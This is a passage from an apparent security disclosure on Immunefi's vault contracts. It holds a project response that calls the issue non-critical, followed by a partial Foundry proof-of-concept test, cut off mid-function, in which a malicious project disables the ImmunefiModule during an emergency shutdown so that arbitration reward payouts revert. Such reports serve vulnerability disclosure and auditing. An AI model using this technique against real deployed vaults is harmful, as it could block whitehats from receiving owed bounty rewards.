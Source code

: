 The ability to add/remove guards is not critical in case of emergency, especially given the fact that the Emergency System bypasses both the `ImmunefiModule` and the `ImmunefiGuard`. Moreover, it is imperative that Immunefi vaults are used solely for the purposes of reward distribution for bug bounty programs at Immunefi. Thus, blocking the ability to add/remove modules/guards does not affect the ability of the protocol to withdraw their funds or perform other critical functions in case of an emergency.

## References

https://github.com/immunefi-team/vaults/blob/49c1de26cda19c9e8a4aa311ba3b0dc864f34a25/src/guards/ImmunefiGuard.sol#L66-L68


## Proof of Concept

The vulnerability could be reproduced by modifying the `Arbitration.t.sol` file and adding the following test to it.

The implemented scenario demonstrates how a malicous project could disable their vault's `ImmunefiModule` during emergency which later on results in revert of payouts which are attempted by the Arbitration system.

```sol
    function testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown() public {
        // 0. Set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendTokens.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);

        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        // 0. Arbitration ref ID
        uint96 referenceId = 1;

        // 0. Mint feeAmount of feeToken to whitehat
        ERC20PresetMinterPauser token = ERC20PresetMinterPauser(address(arbitration.feeToken()));
        vm.startPrank(protocolOwner);
        token.mint(whitehat, arbitration.feeAmount());
        vm.stopPrank();

        // 1. Protocol owner enables emergency shutdown since a critical issue was found in the Arbitration protocol
        vm.prank(protocolOwner);
        emergencySystem.activateEmergencyShutdown();

        bytes memory disableImmunefiModuleHashData = vault.encodeTransactionData({
            to: address(vault),
            value: 0,
            data: abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
            operation: Enum.Operation.Call,
            safeTxGas: 0,
            baseGas: 0,
            gasPrice: 0,
            gasToken: address(0),
            refundReceiver: address(0),
            _nonce: vault.nonce()
        });

```